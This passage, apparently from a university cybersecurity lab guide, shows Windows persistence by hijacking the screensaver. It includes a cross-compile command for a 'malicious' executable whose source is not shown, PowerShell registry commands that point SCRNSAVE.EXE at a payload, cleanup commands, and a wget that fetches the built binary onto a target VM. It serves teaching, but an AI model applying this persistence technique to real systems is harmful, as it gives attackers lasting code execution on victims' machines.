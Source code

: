 Now compile the script:

```
x86_64-w64-mingw32-g++ -O2 screensaver_script.cpp -o bad_script2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

{% hint style="info" %}
If you have access to the PowerShell (also possible on cmd) using a reverse shell (or similar), you can directly modify the registry without compiling the code above:

```
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'C:\test\bad.exe'
```
{% endhint %}

![](<../.gitbook/assets/image (3) (2).png>)

Check if the registry keys are enabled (it should not be on a fresh Windows install, but just in case), and disable them if they are:

```
reg query "HKCU\Control Panel\Desktop" /s
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'SCRNSAVE.EXE'
```

{% hint style="info" %}
They may not exist (not enabled), then you will just see error messages.
{% endhint %}

Now run our malicious script on our target Windows VM and check the registry keys again:

```
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/bad_script2.exe
```

